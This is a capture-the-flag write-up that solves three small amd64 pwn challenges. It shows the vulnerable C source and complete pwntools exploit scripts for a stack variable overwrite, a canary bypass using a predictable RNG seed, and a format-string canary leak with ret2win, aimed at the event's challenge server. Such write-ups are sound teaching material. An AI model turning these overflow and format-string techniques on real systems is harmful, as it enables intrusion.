




import PostFileDownload from "../../../components/PostFileDownload.astro";

## pwnc1

> A vulnerable program could you lead to the flag.
>
> By: @4nimanegra

<PostFileDownload name="2024-conclave-pwnc1.zip" />

```
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

A simple variable overwrite challenge, source code being given definitely makes this way easier.

```c
void pwnme(){

	int number;
	char name[32];

	number=0;

	printf("Insert your name: ");

	scanf("%s",name);

	printf("Welcome home %s\n",name);

	if(number == 8){

		print_flag();

	}

	exit(0);

}
```

Find the offset using gdb until the if statement happens:



Offset was 44 bytes which allowed me to easily create an overwrite:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'pwn')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or '130.206.158.146'
port = int(args.PORT or 42011)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

offset = 44
target_value = 0x8

payload = flat({
    offset: target_value
})

io.clean()
io.sendline(payload)
log.info(io.recvline())

io.interactive()
```

I forgot to screenshot the remote solve so here's me doing it in a local environment:



## pwnc2

> A vulnerable program could you lead to the flag.
>
> By: @4nimanegra

<PostFileDownload name="2024-conclave-pwnc2.zip" />

```
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

This challenge uses a custom canary with a predictable RNG seed, as shown below:

```c
void main(){

	setbuf(stdout,0);

	mastercanary=random();

	pwnme();

}

void pwnme(){

	int canary=mastercanary;
	char name[32];
	char surname[32];

	printf("Insert your name: ");

	scanf("%s",name);

	printf("Welcome home ");
	printf(name);
	printf("\n");

	printf("Insert your surname: ");

	scanf("%s",surname);

	srand(mastercanary);

	if(canary != rand()){

		exit(0);

	}

}
```

The master canary gets one random call, and then the seed is set up as the master canary, and one more random call is used for the final canary. Using the same variable overwrite from pwnc1 I was able to make a script to automatically calculate the canary and overwrite the variable with the correct canary, then be able to return to the win function.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *
from ctypes import CDLL

exe = context.binary = ELF(args.EXE or 'pwn')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or '130.206.158.146'
port = int(args.PORT or 42012)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
b *pwnme+176
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
mastercanary = libc.random()
log.info(f'Master canary: {mastercanary}')
libc.srand(mastercanary)
canary = libc.rand()
log.info(f'Canary: {canary}')
log.info(f'Canary in hex: {hex(canary)}')

log.info(io.clean())
io.sendline(b'winter')
log.info(io.clean())
payload = flat(
    76 * b'A',
    canary,
    4 * b'B',
    0x000000000040114f, # ret
    0x00000000004011d6, # win
)

io.sendline(payload)
log.info(io.clean())

io.interactive()
```

I forgot to screenshot the remote solve so here's me doing it in a local environment:



## pwnc3

> A vulnerable program could you lead to the flag.
>
> By: @4nimanegra

<PostFileDownload name="2024-conclave-pwnc3.zip" />

```
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

Another simple challenge that uses an actual canary this time. Since there isn't any visible variables to overwrite, I had to use the regular way to bypass canary, which requires me to leak it using Format String Exploits. Luckily, the program gives a lot of chances to scout the correct canary!

```c
void pwnme(){

	char name[32];
	char surname[32];

	printf("Insert your name: ");

	scanf("%s",name);

	printf("Welcome home ");
	printf(name);
	printf("\n");

	printf("Insert your first surname: ");

	scanf("%s",surname);

	printf("Insert your second surname: ");

	scanf("%s",surname);


	printf("Your user has been added!!!\n");

}
```

Since finding the correct canary takes time, I used a loop to fuzz through a lot of them at once:

```python
# FUZZING for canary
for i in range(0, 40):
    io = start()
    io.clean()
    io.sendline(bytes(f'%{i}$p', 'utf-8'))
    log.info(f'{i} Leaking stack: {io.recvline()}')
    io.close()
```

Knowing the basics of what canary addresses look like based on [https://ir0nstone.gitbook.io/notes/binexp/stack/canaries](https://ir0nstone.gitbook.io/notes/binexp/stack/canaries), I found the canary at `$15p`. And with that, just do the usual overwriting variables technique with the leaked canary and return to the win function:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'pwn')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or '130.206.158.146'
port = int(args.PORT or 42013)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
# tbreak main
b *pwnme+60
b *pwnme+231
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

RET = 0x000000000040111f
WIN = 0x00000000004011a6

io = start()
io.clean()
io.sendline(b'%15$p')
io.recvuntil(b'home ')

# leak
leak = io.recvline().strip()
leak = int(leak, 16)
log.info(f'Leaked address: {hex(leak)}')

io.sendline(b'winter')
io.clean()

payload = flat(
    cyclic(40, n=8),
    leak,
    cyclic(8, n=8),
    RET,
    WIN
)

io.sendline(payload)

io.interactive()
```

I forgot to screenshot the remote solve so here's me doing it in a local environment:


